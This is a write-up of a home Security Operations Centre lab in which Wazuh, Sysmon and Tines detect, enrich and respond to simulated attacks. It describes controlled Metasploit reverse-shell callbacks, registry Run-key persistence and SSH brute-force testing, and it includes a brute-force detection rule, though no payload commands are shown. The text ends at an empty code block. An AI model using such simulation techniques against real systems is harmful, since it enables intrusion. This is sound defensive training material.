










# Wazuh SIEM and Tines SOAR Lab

## Multi-Platform Detection, Investigation, Threat Enrichment, and Automated Response

## Objective

Build and validate a home Security Operations Centre lab that collects Windows and Linux telemetry, detects suspicious activity, supports investigation in Wazuh, enriches indicators through threat intelligence services, sends structured reports to Slack, and performs analyst-approved active response through Tines.

The project focuses on the full SOC workflow:

1. Generate controlled security events.
2. Collect endpoint telemetry.
3. Detect and investigate suspicious activity.
4. Enrich indicators with threat intelligence.
5. Notify the analyst through Slack.
6. Request human approval before containment.
7. Execute and verify the response.

> All activity was completed in an isolated virtual lab. The IP addresses shown are private RFC 1918 addresses used only within the lab.

## Table of Contents

- [Project Overview](#project-overview)
- [Scope and Success Criteria](#scope-and-success-criteria)
- [Key Deliverables](#key-deliverables)
- [Lab Architecture](#lab-architecture)
- [Tools Used](#tools-used)
- [Data Sources and Telemetry](#data-sources-and-telemetry)
- [Environment Setup](#environment-setup)
- [Detection Scenarios](#detection-scenarios)
- [Controlled Metasploit Adversary Simulation](#controlled-metasploit-adversary-simulation)
- [Custom Detection Engineering](#custom-detection-engineering)
- [Threat Hunting and Investigation Queries](#threat-hunting-and-investigation-queries)
- [Tines SOAR Workflow](#tines-soar-workflow)
- [Active Response](#active-response)
- [SOC Investigation Report](#soc-investigation-report)
- [Incident Timeline](#incident-timeline)
- [Indicators and Investigative Artefacts](#indicators-and-investigative-artefacts)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Challenges and Resolutions](#investigation-challenges-and-resolutions)
- [Recommendations](#recommendations)
- [Future Enhancements](#future-enhancements)

## Project Overview

This project was completed by following the **MYDFIR Wazuh Challenge** and extending the challenge into a documented SOC detection and response portfolio project. It combines Wazuh SIEM with Windows Sysmon, Linux monitoring, controlled Metasploit simulations, custom detection rules, dashboards, Tines SOAR, VirusTotal, AbuseIPDB, Slack, and Wazuh Active Response.

The lab monitored account activity, authentication events, process execution, registry persistence, SSH failures, after-hours activity, and controlled command-and-control-style behaviour. `msfvenom` and `msfconsole` were used inside the isolated lab to reproduce post-compromise activity against the Windows and Ubuntu agents. This generated process, command-line, account, registry, file-transfer, and network evidence for investigation in Wazuh. Alerts were sent from Wazuh to Tines, analysed and enriched, formatted into a SOC triage report, and delivered to Slack. Where blocking was recommended, the workflow required an analyst decision before sending the active-response request to Wazuh.


## Scope and Success Criteria

### Project Scope

The project covered four connected areas of security operations:

1. **Security monitoring**
   - Collect Windows Security events.
   - Collect Windows Sysmon telemetry.
   - Collect Ubuntu authentication and SSH logs.
   - Confirm agent health and event ingestion.

2. **Detection engineering**
   - Detect Windows account creation and deletion.
   - Detect successful Windows logons.
   - Detect suspicious account changes.
   - Correlate repeated SSH authentication failures.
   - Detect controlled persistence and process execution activity.
   - Present after-hours activity through dashboards.

3. **SOC investigation**
   - Review alerts and raw events.
   - Identify the affected host and user.
   - Extract source and destination addresses.
   - Review process, account, authentication, and network context.
   - Map behaviour to MITRE ATT&CK.
   - Produce a structured 5W1H report.

4. **Response orchestration**
   - Send Wazuh alerts to Tines.
   - Extract and normalise IOCs.
   - Enrich supported indicators.
   - Notify the analyst in Slack.
   - Require approval before containment.
   - Execute Wazuh Active Response.
   - Confirm the firewall action through testing and telemetry.

### Success Criteria

| Requirement | Validation method | Result |
|---|---|---|
| Windows and Ubuntu agents report to Wazuh | Agent inventory and dashboard status | Achieved |
| Windows Security and Sysmon events are searchable | Wazuh Discover searches | Achieved |
| Ubuntu SSH failures generate telemetry | Authentication alert review | Achieved |
| Repeated failures trigger a custom correlation rule | Rule `100101` fires at level 10 | Achieved |
| Account lifecycle events are visible | Event IDs `4720` and `4726` | Achieved |
| Successful logons are investigable | Event ID `4624` | Achieved |
| After-hours activity is visible | Custom dashboard panels | Achieved |
| Wazuh alert reaches Tines | Webhook event inspection | Achieved |
| Triage report reaches Slack | Slack SOC channel message | Achieved |
| Analyst approval controls blocking | Tines approval page | Achieved |
| Active Response receives a clean source IP | Wazuh active-response event | Achieved |
| Firewall response changes connectivity | Before-and-after ping test | Achieved |
| Windows Meterpreter callback is established in the isolated lab | `msfconsole` session evidence | Achieved |
| Ubuntu Meterpreter callback is established in the isolated lab | `msfconsole` session evidence | Achieved |
| Post-compromise commands are visible in Wazuh | Sysmon and Wazuh Discover evidence | Achieved |

## Key Deliverables

- Multi-system Wazuh lab with Windows and Ubuntu agents
- Windows Sysmon integration
- Linux authentication and SSH monitoring
- Custom Wazuh detection rules
- Account lifecycle investigation evidence
- Authentication and process investigation evidence
- After-hours activity dashboard
- MITRE ATT&CK mapping
- Controlled Windows and Linux payload generation with `msfvenom`
- Meterpreter session handling and post-compromise simulation with `msfconsole`
- Wazuh validation of simulated command, account, registry, and network behaviour
- Tines webhook and alert processing workflow
- VirusTotal and AbuseIPDB enrichment logic
- AI-assisted SOC triage report constrained to alert evidence
- Slack notification workflow
- Human approval page for containment
- Wazuh API authentication and Active Response integration
- Firewall-block validation evidence
- Complete GitHub investigation report with screenshots

## Lab Architecture



| System | Role | IP address |
|---|---|---|
| Wazuh server | Manager, indexer, dashboard, API, and central analysis | `192.168.66.128` |
| Windows 10 | Monitored endpoint with Wazuh agent and Sysmon | `192.168.66.131` |
| Ubuntu | Monitored Linux endpoint and SSH target | `192.168.66.132` |
| Kali Linux | Controlled attack simulation system | `192.168.66.133` |
| Tines | SOAR workflow, enrichment, approval, and response orchestration | Cloud service |
| Slack | SOC notification and triage channel | Cloud service |

## Tools Used

- Wazuh Manager, Indexer, Dashboard, and API
- Wazuh agents for Windows and Ubuntu
- Sysmon for Windows
- Linux Sysmon parser
- VMware Workstation
- Windows Event Viewer and PowerShell
- Ubuntu audit and authentication logs
- Kali Linux
- Metasploit Framework, including `msfvenom`, `msfconsole`, multi/handler, and Meterpreter
- Tines SOAR
- VirusTotal
- AbuseIPDB
- Slack
- ngrok for temporary lab API connectivity
- MITRE ATT&CK

## Data Sources and Telemetry

| Data source | Platform | Security value | Important fields |
|---|---|---|---|
| Windows Security log | Windows 10 | Account creation, deletion, changes, and logons | `eventID`, `targetUserName`, `subjectUserName`, `targetSid`, `ipAddress`, `logonType` |
| Sysmon Operational log | Windows 10 | Process execution, parent-child relationships, network activity, and registry changes | `image`, `commandLine`, `parentImage`, `user`, `hashes`, `destinationIp`, `utcTime` |
| Metasploit simulation evidence | Kali, Windows, and Ubuntu | Controlled payload generation, callbacks, shell activity, and post-compromise commands | Payload type, `LHOST`, `LPORT`, session ID, user context, process path |
| SSH authentication logs | Ubuntu | Successful and failed remote authentication | `srcip`, `srcport`, `dstuser`, `program_name`, `full_log` |
| Linux system logs | Ubuntu | Service, process, privilege, and system activity | `agent.id`, `agent.name`, `location`, `decoder.name`, `rule.id` |
| Wazuh alert metadata | Wazuh | Severity, rule context, frequency, groups, and ATT&CK mapping | `rule.id`, `rule.level`, `rule.description`, `rule.mitre`, `firedtimes` |
| Wazuh agent metadata | Wazuh | Identifies the affected system | `agent.id`, `agent.name`, `agent.ip` |
| Wazuh Active Response logs | Endpoint and Wazuh | Confirms response execution and the value passed to the script | `data.command`, `data.srcip`, `data.parameters.program` |
| Tines action events | Tines | Records webhook receipt, parsing, decisions, approvals, and API results | Action event body, formula output, HTTP status |
| Slack triage messages | Slack | Provides analyst-facing findings and recommendations | Findings, summary, 5W1H, block decision |

## Capabilities Demonstrated

- Windows and Linux log collection
- Sysmon process and network telemetry
- Windows account lifecycle monitoring
- Windows logon investigation
- SSH authentication monitoring
- Custom Wazuh rule creation
- Correlation of repeated authentication failures
- After-hours activity dashboards
- Indicator extraction and threat intelligence enrichment
- AI-assisted alert triage using alert evidence only
- Slack notification and case communication
- Human-in-the-loop containment approval
- Wazuh API authentication and active response
- Response verification using endpoint and Wazuh telemetry
- Controlled Windows and Linux adversary simulation with Metasploit
- Cross-platform validation of reverse-connection, process, command, account, and registry telemetry

## Environment Setup

### Network Design

All virtual machines were placed on the private `192.168.66.0/24` lab network. This allowed direct communication between the systems while keeping the simulation separate from production assets.

| Communication path | Purpose |
|---|---|
| Windows → Wazuh server | Windows Security and Sysmon telemetry |
| Ubuntu → Wazuh server | SSH, authentication, system, and process telemetry |
| Kali → Windows or Ubuntu | Controlled security testing |
| Windows or Ubuntu → Kali | Controlled reverse connection to the Metasploit handler |
| Wazuh server → Tines | Alert forwarding through webhook integration |
| Tines → VirusTotal and AbuseIPDB | Supported IOC enrichment |
| Tines → Slack | SOC report delivery |
| Tines → Wazuh API | Approved Active Response request |
| Wazuh server → affected agent | Execution of the selected response script |

### Agent Deployment

The Windows 10 and Ubuntu systems were enrolled as Wazuh agents. Agent connectivity was verified from the Wazuh dashboard before testing detection scenarios.


The following checks were completed before detection testing:

- Both agents appeared as active.
- Agent IDs matched the expected endpoints.
- Agent IP addresses matched the private lab addressing plan.
- The manager received recent events from both platforms.
- Time settings were reviewed to support timestamp comparison.
- Wazuh service status was checked after each configuration change.

### Windows Telemetry

Sysmon was installed on the Windows endpoint using the Sysmon Modular configuration. Windows Security and Sysmon events were forwarded to Wazuh for process, account, authentication, registry, and network analysis.


The Windows endpoint produced two main telemetry streams:

- **Windows Security auditing**, used for user account and logon events.
- **Sysmon**, used for detailed endpoint telemetry such as process creation, command-line arguments, parent process details, hashes, registry activity, and network connections.

The Windows investigation process focused on:

1. Identifying the event ID.
2. Confirming the endpoint and agent ID.
3. Reviewing subject and target accounts.
4. Reading the logon type or account-control value.
5. Resolving SIDs when the account name was unclear.
6. Comparing the process and parent process.
7. Reviewing command lines for suspicious or unusual execution.
8. Checking whether the activity matched the lab test or required escalation.

### Linux Telemetry

The Ubuntu agent collected authentication, SSH, system, and process activity. A Linux Sysmon decoder was added to the manager to improve parsing and field extraction for Linux events.

The Linux investigation process focused on:

1. Source IP and source port.
2. Target username.
3. Authentication result.
4. Number of attempts within the correlation period.
5. Whether a successful login followed the failures.
6. Processes or commands executed after authentication.
7. Whether the source was internal, trusted, expected, or suspicious.
8. Whether containment would affect a legitimate lab or administrative system.

### Wazuh Configuration Control

Wazuh configuration changes were validated carefully because malformed XML previously caused both manager and agent service failures. The validation process included:

```bash
sudo xmllint --noout /var/ossec/etc/ossec.conf
```

Manager configuration was tested before restart:

```bash
sudo /var/ossec/bin/wazuh-analysisd -t
sudo systemctl restart wazuh-manager
sudo systemctl status wazuh-manager
```

Agent configuration was checked before restarting the endpoint service:

```bash
sudo systemctl restart wazuh-agent
sudo systemctl status wazuh-agent
```

This validation reduced the risk of duplicate root elements, misspelled closing tags, mismatched XML elements, and extra content after `</ossec_config>`.

## Detection Scenarios

### 1. Windows Account Creation

A local Windows account was created during the simulation. Wazuh recorded Windows Security Event ID `4720`, which identifies the creation of a user account.



#### Investigation Focus

- Who created the account?
- What username was created?
- What SID was assigned?
- Which endpoint recorded the event?
- Was the action expected?
- Was the new account added to a privileged group?
- Did the account log on shortly after creation?

#### Detection Value

Account creation is not automatically malicious. It becomes more significant when it occurs outside a change window, uses a suspicious name, is followed by privilege assignment, originates from an unusual administrator account, or appears near other persistence activity.

### 2. Windows Account Deletion

The test account was deleted to validate account lifecycle monitoring. Wazuh recorded Windows Security Event ID `4726` and exposed the subject, target account, security identifier, host, and timestamp for investigation.



#### Investigation Focus

- Identify the subject account that performed the deletion.
- Identify the deleted account and target SID.
- Check whether the deletion followed suspicious account use.
- Determine whether deletion was an approved administrative action.
- Search for related account creation, group membership, and logon events.
- Preserve evidence because account deletion might be used to remove attacker-created accounts or hide activity.

### 3. Successful Logon Investigation

Windows Security Event ID `4624` was reviewed to identify successful authentication activity. Logon type, account name, source address, process, workstation, and security identifier were used to determine the nature of the logon.


Security identifiers were also resolved during the investigation to link raw SID values to Windows accounts.


#### Logon Type Context

| Logon type | Meaning | SOC relevance |
|---|---|---|
| `2` | Interactive local logon | Review unexpected local access |
| `3` | Network logon | Common for shared resources and remote access |
| `4` | Batch | Often linked to scheduled tasks |
| `5` | Service | Expected for service accounts but useful for anomaly detection |
| `7` | Unlock | Indicates an existing session was unlocked |
| `8` | Network cleartext | Requires careful review due to credential exposure risk |
| `9` | New credentials | Associated with alternate credentials |
| `10` | Remote interactive | Commonly associated with RDP |
| `11` | Cached interactive | Logon using cached domain credentials |

The logon type must be interpreted alongside the account, source address, workstation, authentication package, process, and surrounding events.

### 4. Repeated SSH Authentication Failures

Repeated failed SSH logins were generated against the Ubuntu endpoint. A custom correlation rule detected three failures from the same source within a 120-second period.

```xml
<group name="local,syslog,sshd,authentication_failed,">
  <rule id="100101" level="10" frequency="3" timeframe="120">
    <if_matched_sid>5760</if_matched_sid>
    <same_source_ip />
    <description>Multiple SSH login failures observed from the same source IP</description>
    <mitre>
      <id>T1110</id>
    </mitre>
    <group>authentication_failed,ssh_bruteforce,credential_access,</group>
  </rule>
</group>
```


#### Detection Logic

The rule does not alert on a single failure. It waits for three matching events within 120 seconds and requires the same source IP. This reduces noise from isolated typing errors while still detecting a short burst of password guessing.

#### Triage Questions

- Is the source address internal or external?
- Is the source system authorised to administer the Ubuntu host?
- Which account was targeted?
- Did any later authentication succeed?
- Did the source target other accounts or systems?
- Were commands executed after the attempts?
- Is the source listed in an approved scanner or administrator list?
- Would blocking the address interrupt a trusted service?

### 5. Activity Outside Working Hours

Custom dashboards were created to highlight Windows and Linux authentication or account activity outside the expected period of 06:00 to 20:00. This supports faster review of events occurring at unusual times.




The dashboard was designed as a hunting aid rather than a standalone malicious-activity verdict. Activity outside working hours might be expected for maintenance, backups, service accounts, remote teams, or shift workers. Each event still requires context.

### 6. Registry Run Key Persistence

A controlled Windows persistence test added `calc.exe` to the `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` registry path. Sysmon telemetry allowed the command and related process activity to be reviewed in Wazuh.

```cmd
